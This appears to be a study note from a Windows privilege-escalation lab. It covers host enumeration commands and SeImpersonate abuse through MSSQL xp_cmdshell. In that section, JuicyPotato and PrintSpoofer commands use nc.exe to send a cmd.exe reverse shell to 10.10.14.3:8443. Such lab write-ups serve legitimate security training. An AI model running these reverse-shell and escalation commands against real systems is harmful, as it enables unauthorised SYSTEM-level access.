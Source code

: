## Starting

Check network information
```powershell
ipconfig /all 
arp -a
route print
```

Check windows defender status
```powershell-session
Get-MpComputerStatus
```

List AppLocker rules 
```powershell-session
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Test AppLocker policy to check if cmd is denied by the policy
```powershell-session
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```

To check for other thing we can modify the command for example:
```
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -Path C:\*\*\*\*\*.exe -User Everyone
```

## Initial Enumeration
Get running tasks:

```powershell
tasklist /svc
```

Get env variable and system info

```
set
systeminfo
```

If `systeminfo` doesn't display hotfixes, they may be queriable with [WMI](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page)
```cmd-session
wmic qfe
```

We can do this with PowerShell as well using the [Get-Hotfix](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-hotfix?view=powershell-7.1) cmdlet.

```powershell-session
PS C:\htb> Get-HotFix | ft -AutoSize
```

Check installed softwares and versions.
```powershell-session
Get-WmiObject -Class Win32_Product |  select Name, Version
```

Then comes favorite part, checking for open services 
```cmd-session
netstat -ano
```

Current  user's info
```powershell
query user
echo %USERNAME%
whoami /priv
whoami /groups
```

Knowing what other users are on the system is important as well. If we gained RDP access to a host using credentials we captured for a user `bob`, and see a `bob_adm` user in the local administrators group, it is worth checking for credential re-use
using net commands 

```cmd-session
net user
```

Knowing what non-standard groups are present on the host can help us determine what the host is used for, how heavily accessed it is, or may even lead to discovering a misconfiguration such as all Domain Users in the Remote Desktop or local administrators groups.
```cmd-session
net localgroup
```

and to have further info about a specific group and its users 
```cmd-session
net localgroup administrators
```
to finish it's worth checking for password policies and account information
```cmd-session
net accounts
```

some cheat- sheets for instance payload all things for an exhaustive list [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
Named pipes, well i know what they are, not gonna explain them (sorry readers), but still can look them up [Named Pipes](https://learn.microsoft.com/en-us/windows/win32/ipc/named-pipes)
Listing named pipes list
```cmd-session
pipelist.exe /accepteula
```

reviewing a specific named pipe
```cmd-session
accesschk.exe /accepteula \\.\Pipe\lsass -v
accesschk.exe -accepteula -w \pipe\WindscribeService -v
```

## Windows user privileges
### SeImpersonate Example - JuicyPotato

connect to mssql with  MSSQLClient.py example, in other to escalate privileges with set Impersonate:
```shell-session
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```
Once connected we need to enable cmd shell
```shell-session
SQL> enable_xp_cmdshell
```
now we can execute cmd sessions.
```shell-session
xp_cmdshell whoami /priv

```

> [!info]
Note: We don't actually have to type `RECONFIGURE` as Impacket does this for us.

if we ever found ```SeImpersonatePrivilege``` is found, it can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`
We can use  [JuicyPotato](https://github.com/ohpe/juicy-potato) to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.
example:
```shell-session
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access

```shell-session
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
### SeDebugPrivilege
To run a particular application or service or assist with troubleshooting, a user might be assigned the [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under `Computer Settings > Windows Settings > Security Settings`. By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures.